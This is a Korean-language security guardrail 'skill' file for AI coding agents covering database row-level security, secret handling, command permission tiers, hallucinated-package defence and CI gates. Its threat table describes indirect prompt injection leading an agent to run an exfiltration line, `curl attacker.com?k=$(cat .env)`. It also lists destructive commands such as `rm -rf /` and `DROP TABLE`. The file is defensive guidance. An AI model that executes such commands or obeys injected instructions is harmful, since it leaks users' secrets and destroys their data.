

# Production Security Guardrails Skill

이 스킬은 바이브 코딩(Vibe Coding) 및 AI 에이전트 자율 개발 환경에서 발생할 수 있는 **5대 보안 참사(데이터베이스 RLS 누수, API 키/시크릿 번들러 유출, YOLO 모드 파괴적 쉘 실행, 환각 패키지 Slopsquatting 공급망 공격, CI/CD 보안 누락)**를 원천 차단하기 위한 엔터프라이즈급 보안 가드레일 프레임워크입니다.

---

## 1. AI 코딩 에이전트 신종 보안 위협 모델 (Threat Modeling)

AI는 확률 통계적으로 가장 그럴듯한 코드를 생성할 뿐, **신뢰 경계(Trust Boundary)**를 이해하지 못합니다.

| 위협 벡터 | 공격 및 참사 메커니즘 | 방어 가드레일 |
| :--- | :--- | :--- |
| **1. Slopsquatting (환각 패키지)** | LLM이 존재하지 않는 패키지 이름을 지어내면(환각률 3~30%), 공격자가 PyPI/npm에 선점 등록하여 postinstall 훅으로 `.env` 탈취 | 설치 전 레지스트리 메타데이터 스캔 (`check_slopsquatting.py`) & Lockfile SHA-256 고정 |
| **2. Indirect Prompt Injection** | 웹 문서, 오픈소스 README, 깃허브 이슈 속 악의적 지시문이 시스템 프롬프트를 탈취하여 `curl attacker.com?k=$(cat .env)` 실행 | 외부 입력 데이터 격리 & 쉘 실행 권한 3단계 등급제 |
| **3. YOLO Mode 파괴적 실행** | 자동 승인(Auto-Approve) 켜둔 상태에서 AI가 디버깅 중 `rm -rf /` 또는 `DROP TABLE CASCADE` 실행 | 격리 컨테이너 샌드박스 & Destructive 명령 인간 명시적 결재 필수 |
| **4. DB RLS 누수** | PostgreSQL 테이블 생성 시 RLS가 기본 OFF 상태여서 `anon` 키로 전 고객 데이터 노출 | `ENABLE ROW LEVEL SECURITY` & `FOR ALL` CRUD 격리 정책 필수화 |
| **5. 프론트엔드 시크릿 번들링** | `VITE_` 또는 `NEXT_PUBLIC_` 접두사를 붙여 결제 시크릿 키나 LLM API 키를 클라이언트 JS 번들에 평문 하드코딩 | `.env` 3원칙 & Gitleaks pre-commit 훅 차단 |

---

## 2. Guardrail 01: 데이터베이스 RLS (Row Level Security) 3대 철칙

BaaS(Supabase, Firebase) 환경에서는 프론트엔드가 데이터베이스에 직접 쿼리를 수행하므로, DB 자체에 방패를 씌워야 합니다.

### 2.1 3대 치명적 함정과 방어
1. **함정 1 (기본 OFF):** 테이블 생성 시 RLS는 기본 비활성화 상태입니다.
   - ➔ **방어:** 모든 신규 테이블에 `ALTER TABLE <table_name> ENABLE ROW LEVEL SECURITY;` 필수 실행.
2. **함정 2 (반쪽짜리 정책):** `FOR SELECT`만 막고 `FOR UPDATE/INSERT`를 방치하면 타인 프로필/결제 상태 변조 가능.
   - ➔ **방어:** `FOR ALL` 또는 `INSERT, UPDATE, DELETE` 전 작업에 대해 `USING`과 `WITH CHECK`를 동시 검증.
3. **함정 3 (키 오남용):** RLS 권한 에러 발생 시 AI가 문제를 해결하는 대신 `service_role` 마스터 키를 클라이언트에 넣는 행위.
   - ➔ **방어:** 프론트엔드는 오직 `anon key` + 유저 JWT 세션만 사용하고, `service_role`은 백엔드 서버 환경변수에만 격리.

### 2.2 표준 RLS DDL 골격
```sql
-- 1. 테이블 생성
CREATE TABLE user_orders (
  id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  user_id uuid REFERENCES auth.users NOT NULL,
  amount integer NOT NULL,
  status text NOT NULL DEFAULT 'pending',
  created_at timestamptz DEFAULT now()
);

-- 2. RLS 활성화 (필수)
ALTER TABLE user_orders ENABLE ROW LEVEL SECURITY;

-- 3. FOR ALL 정책 (읽기 + 쓰기 + 수정 + 삭제 완전 격리)
CREATE POLICY "Users can only manage their own orders"
ON user_orders
FOR ALL
TO authenticated
USING (auth.uid() = user_id)
WITH CHECK (auth.uid() = user_id);
```

---

## 3. Guardrail 02: 시크릿 키 3중 격리 & 번들러 유출 차단

### 3.1 .env 3원칙
1. `.env.dev` / `.env.prod`: 실제 시크릿 키 보관. **`.gitignore`에 필수 등록**하고 Git 커밋을 영구 차단.
2. `.env.example`: 더미 키(`sk_test_replace_this_here`)만 기재하여 템플릿으로 Git 커밋.
3. 서버 주입: CI/CD GitHub Secrets 또는 배포 서버 호스트의 안전한 환경변수로 주입.

### 3.2 번들러 접두사 함정 방어
* ❌ **절대 금지:** `VITE_STRIPE_SECRET`, `NEXT_PUBLIC_OPENAI_KEY` 등 프론트엔드 접두사에 시크릿 주입 (브라우저 DevTools에 1초 만에 평문 노출).
* ✅ **허용:** `VITE_SUPABASE_ANON_KEY`, `VITE_TOSS_CLIENT_KEY` (공개되어도 RLS로 보호되는 퍼블릭 식별자만 허용).

### 3.3 로컬 커밋 차단 (Gitleaks Pre-commit)
커밋 시점에 시크릿을 물리적으로 차단:
```yaml
# .pre-commit-config.yaml
repos:
  - repo: https://github.com/gitleaks/gitleaks
    rev: v8.18.2
    hooks:
      - id: gitleaks
```

---

## 4. Guardrail 03: 에이전트 샌드박스 & 3단계 명령어 권한 게이트

에이전트에게 호스트 OS의 루트 권한을 열어주지 않고 격리된 샌드박스 내에서 3단계 등급제로 제어합니다.



1. **🟢 Safe (자동 승인):** 읽기 및 무해한 빌드 검사 (`ls`, `git status`, `git diff`, `cargo check`, `ruff check`).
2. **🟡 Sensitive (네트워크/설치):** 외부 네트워크 호출 및 패키지 설치 (`curl`, `uv add`, `git fetch`). *설치 전 Slopsquatting 검증 수행.*
3. **🔴 Destructive (인간 결재 필수):** 파괴적 명령 (`rm -rf`, `drop table`, `kill`, `git push --force`). *Human-in-the-Loop 승인 없이 실행 불가.*

---

## 5. Guardrail 04: 소프트웨어 공급망 방어 & Lockfile 무결성

1. **Lockfile SHA-256 해시 고정:**
   - Python: `uv.lock`
   - Node.js: `pnpm-lock.yaml` / `package-lock.json`
   - Rust: `Cargo.lock`
   - CI 배포 환경에서는 항상 고정 모드 실행: `uv sync --frozen`, `npm ci`, `cargo build --locked`.
2. **AI 추천 신규 패키지 사전 스캔 (`check_slopsquatting.py`):**
   - 레지스트리 등록일 30일 미만 또는 다운로드 100회 미만인 패키지는 AI 환각/공격 위험으로 간주하고 설치 중단.
3. **자동 취약점 감사:**
   - `uv pip check && pip-audit`
   - `npm audit --audit-level=high`
   - `cargo audit`

---

## 6. Guardrail 05: CI/CD 4중 자동 보안 게이트 파이프라인

PR 생성 및 머지 시 GitHub Actions에서 4대 보안 게이트를 통과해야만 머지가 허용됩니다.

```yaml
# .github/workflows/security-gates.yml
name: Security Gates
on: [pull_request, push]

jobs:
  security:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Gate 1 - Gitleaks Secret Scan
        uses: gitleaks/gitleaks-action@v2
        env:
          GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
      - name: Gate 2 - SAST Code Scan (Ruff / Bandit)
        run: |
          pip install ruff
          ruff check --select S .
      - name: Gate 3 - Dependency Security Review
        uses: actions/dependency-review-action@v4
        with:
          fail-on-severity: high
```

---

## 7. 배포 전 최종 6대 체크리스트 (Pre-Flight Gate)

- [ ] `.env*` 파일이 `.gitignore`에 등록되어 있으며 Git 인덱스에 추적되지 않는가?
- [ ] 프론트엔드 번들(`VITE_`, `NEXT_PUBLIC_`)에 결제/DB/LLM 시크릿 키가 없는가?
- [ ] 모든 신규 DB 테이블에 `ENABLE ROW LEVEL SECURITY`가 적용되었는가?
- [ ] RLS 정책이 `FOR ALL` 또는 CRUD 전체(INSERT, UPDATE, DELETE, SELECT)를 보호하는가?
- [ ] 신규 추가된 라이브러리가 환각 패키지(Slopsquatting)가 아니며 Lockfile이 고정되었는가?
- [ ] Gitleaks 및 CI/CD 4대 보안 게이트가 녹색(Pass)을 기록했는가?
